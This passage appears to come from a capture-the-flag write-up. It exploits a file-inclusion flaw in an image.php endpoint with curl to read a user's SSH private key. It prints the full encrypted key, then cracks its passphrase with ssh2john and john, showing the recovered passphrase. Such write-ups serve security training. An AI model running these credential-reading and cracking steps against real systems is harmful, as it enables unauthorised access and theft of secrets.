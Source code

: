 Checking out `http://54.194.16.253/image.php?i=/home/lara/password.txt`, but unfortunately it doesn't give us any content. What we do know, is that there are a couple of users. One thing to check for is private keys:
* `/home/lara/.ssh/id_rsa`
* `/home/tom/.ssh/id_rsa`

Doesn't look like the current user has access to lara's home directory, but we're a little luckier with tom!
```
curl http://54.194.16.253/image.php?i=/home/tom/.ssh/id_rsa
[…]
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBYh5PbQ6
jNxRqfR68r2ex/AAAAEAAAAAEAAACXAAAAB3NzaC1yc2EAAAADAQABAAAAgQCf0qpOLsNY
kGBKsQK8nqnG/cR6RmViy2AameL/XNRBE7IxHNj+ViS/B6kg76q/MhpiSzhl1x0oUOaHmp
bSlcBT0CBV7hQoMQcDnpBzrpezhUjZOQky52GOlpvBM+fUI9VeRYbYZTa69jKYogtc/F2+
7Mev+9BdQKfABUUFBOMswQAAAhC3NsAuacV1IbvWVAuEPBSPYWfeLv/SUYxKKoUo8vIR/c
oIw+EioNAe6Zc6eG/DJIPWmIsKdx5h7Jrs9aGxtH2BtfROwN0PEw7D6gqMFtA9NS75DhBZ
3Fg2bKsoly8BTj7FL8cqUXqfShn3TgKdYgIqSbPG911tZKmSvkJqgbvr86kuwPrvjvVulb
bYk5z4mcsShsOU5hfjq9rfISPpWzhw5cHH/rFLnEjjJXPwJy7GguNiMuU85wWMhdQTvX6G
5NjuLNoG7fPpF/mN+701/nZSDTbxwOPZ+OvqY5rVIetXE/eIKMDdlbc5m3pd7+YDJKsark
KGbcUYhkVcvE6ditqJJbnpMbuXfbntNqtSSoBZD3r/IpbvkuTPxpJpQGJJFoX+6a963r/0
gud687aR0TWaWGE0RIqE65oE9Qw4AOHfCIRVrXl7qpKkqoyppicOwkTy8IbDa5UNT6UwYa
Llq3LzaGT+NJ+QuTQ7hJvZsgsxNKGuKXqXykEzUfq/ZtYRt16tZ23ykUd/8KuhoaWqMbCL
uND1m7ULmZiOgLwKOvTGys6KC+n88E3gC8MRBOWkI3CWQ7VvXEUeWefyWROPEFmqpInBNG
ILl00zdB33L95W7e11LJz6IV6YzbI2RtZRc/TqyFLz2lEMTt6Rd7OWvb2N+Xu/kvEhQuuB
z590wYXCO8WzsU4HA9vRkm1uyGbJTiA=
-----END OPENSSH PRIVATE KEY-----
[…]
```

### ssh key and cracking
Saving the key as `tom.key` and making sure the permissions are set to `chmod 0600`:
```
ls -lah
-rw------- 1 kali kali 1,1K Nov  7 10:30 tom2key
```

The permissions are required to be `0600` for the key to be accepted with `ssh`.

Using the key and the username `tom` to connect to `ssh`:
```
❯ ssh 54.194.16.253 -l tom -i tom.key 
The authenticity of host '54.194.16.253 (54.194.16.253)' can't be established.
ED25519 key fingerprint is SHA256:QcYZzfWjbBR6+WTwTyvnp8GLHNQtH2V7Du/DC0QBSdo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '54.194.16.253' (ED25519) to the list of known hosts.
Enter passphrase for key 'tom.key': 
```

Hmm, a passphrase. We don't have a passphrase, but perhaps it's possible to crack it? Using `ssh2john`, `john` and the wordlist `rockyou.txt` to try to find the passphrase:
```
❯ ssh2john tom.key > tom.hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt tom.hash 

[…]

❯ john tom.hash --show
tom.key:inuyasha
```
